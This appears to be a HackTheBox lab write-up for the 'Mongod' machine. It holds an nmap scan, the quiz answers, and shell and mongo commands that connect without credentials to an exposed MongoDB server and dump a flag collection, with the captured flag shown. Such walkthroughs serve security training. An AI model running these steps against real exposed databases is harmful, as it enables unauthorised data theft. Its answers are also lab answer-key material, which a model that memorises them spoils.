 ```yaml
---
title: 🔵 HTB - Mongod
date: 2023-08-01
categories: [HackTheBox, Machines]
tags: [mongodb]
---
```


# Mongod

_How many TCP ports are open on the machine?_

`2`

_Which service is running on port 27017 of the remote host?_

```bash
$ nmap -sV -p- <ip>
...
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
27017/tcp open  mongodb MongoDB 3.6.8
...

```

_What type of database is MongoDB?_

`NoSQL`

_What is the command name for the Mongo shell that is installed with the mongodb-clients package?_

`mongo`

_What is the command used for listing all the databases present on the MongoDB server?_

`show dbs`

_What is the command used for listing out the collections in a database?_

`show collections`

_What is the command used for dumping the content of all the documents within the collection named flag in a format that is easy to read?_

`db.flag.find().pretty()`

_Submit root flag_

```bash
# Download binaries
$ curl -O <https://fastdl.mongodb.org/linux/mongodb-linux-x86_64-3.4.7.tgz>

$ tar xvf mongodb-linux-x86_64-3.4.7.tgz

$ cd mongodb-linux-x86_64-3.4.7.tgz

$ ./bin/mongo mongodb://<ip>:27017
> show dbs
admin                  0.000GB
config                 0.000GB
local                  0.000GB
sensitive_information  0.000GB
users                  0.000GB
> use sensitive_information
switched to db sensitive_information
> show collections
flag
> db.flag.find().pretty()
{
	"_id" : ObjectId("630e3dbcb82540ebbd1748c5"),
	"flag" : "1b6e6fb359e7c40241b6d431427ba6ea"
}
```
